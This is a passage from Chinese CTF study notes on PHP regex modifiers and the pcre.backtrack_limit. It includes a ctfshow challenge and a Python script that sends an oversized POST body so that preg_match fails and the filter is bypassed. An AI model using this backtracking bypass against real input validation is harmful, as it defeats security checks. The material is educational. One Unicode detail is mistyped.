 `s`：匹配符`.`本来匹配换行符之外的任何字符，现在可以匹配换行符。

`g`：全局匹配，会记录每个符合条件的直到字符串结尾位置。

`m`：多行匹配。每一行都可以算开始结束符。

`u`：是否可以正确处理大于`\uFFF`的`Unicode`字符。

`y`：是否只能从`lastIndex`属性规定的位置开始匹配，匹配失败不会尝试后面的字符。

`x`：忽略空白。

`A`：强制从开头匹配。

`D`：如果使用`$`限制结尾字符，则不允许结尾有换行。

- 最大回溯次数：默认为100万

为了防止正则表达式拒绝服务攻击，由`pcre.backtrack_limit`设置了回溯次数上限。假如回溯次数超过100万，则`preg_match`不再返回1或0，而直接返回`false`。

示例如下：

```php
include("flag.php");
if(isset($_POST['f'])){
    $f = $_POST['f'];

    if(preg_match('/.+?ctfshow/is', $f)){
        die('bye!');
    }
    if(stripos($f, 'ctfshow') === FALSE){
        die('bye!!');
    }

    echo $flag;

}
```

阅读代码，大意即是传入的字符需拥有`ctfshow`这个字符串，但同时正则表达式又对字符串进行了一些限制。由于`.+?`会匹配相同的字符串无限次，因此可以回溯绕过。

脚本编写如下：

```python
import requests
url = 'http://7aa03b05-6a9a-4777-9548-7ac30f8799ed.challenge.ctf.show/'
response = requests.post(url, data={'f':250000*'aaaa'+'ctfshow'})
print(response.text)
```

注意的是一般来说请求的字符长度也是有限制的，因此不要写得太大。

## intval()函数

- 函数原型

```php
intval ( mixed $var [, int $base = 10 ] ) : int
```
